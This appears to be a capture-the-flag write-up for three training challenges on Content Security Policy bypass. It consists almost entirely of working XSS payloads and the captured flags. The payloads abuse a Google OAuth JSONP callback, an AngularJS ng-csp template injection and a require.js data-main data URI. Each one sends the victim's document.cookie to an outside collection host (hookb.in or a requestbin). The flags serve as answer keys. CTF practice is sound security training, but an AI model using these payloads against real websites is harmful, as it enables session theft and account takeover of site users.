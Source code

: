 # babycsp ![c](https://img.shields.io/badge/solved-success)
> https://babycsp.training.ctf.necst.it/
```javascript
"><script src="https://accounts.google.com/o/oauth2/revoke?callback=window.location.href='https://hookb.in/9XwRzarbRDS600eMoL7d?'%2bdocument.cookie;"></script>
```

**flag=flag{4re_yo0_s0_sure_csp_1s_useful?}**
# csp ![c](https://img.shields.io/badge/solved-success)
> http://csp.training.ctf.necst.it/
```javascript
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js"></script> <div ng-app ng-csp id=p ng-click={{constructor.constructor("window.location.href='https://requestbin.training.ctf.necst.it/1a2ro011?cookie='+document.cookie")()}}>
```

**flag=flag{th1s1s_how_w3_byp4ss3d_csp}**

# strict csp ![c](https://img.shields.io/badge/solved-success)
> http://strict-csp.training.ctf.necst.it/
```javascript
<script data-main="data:1,window.location.href='https://requestbin.training.ctf.necst.it/x57dvjx5?cookie='+document.cookie" src='require.js'></script>
```
**flag{th4t-w4s3nt-s0-str1ct-w4snt-it?}**
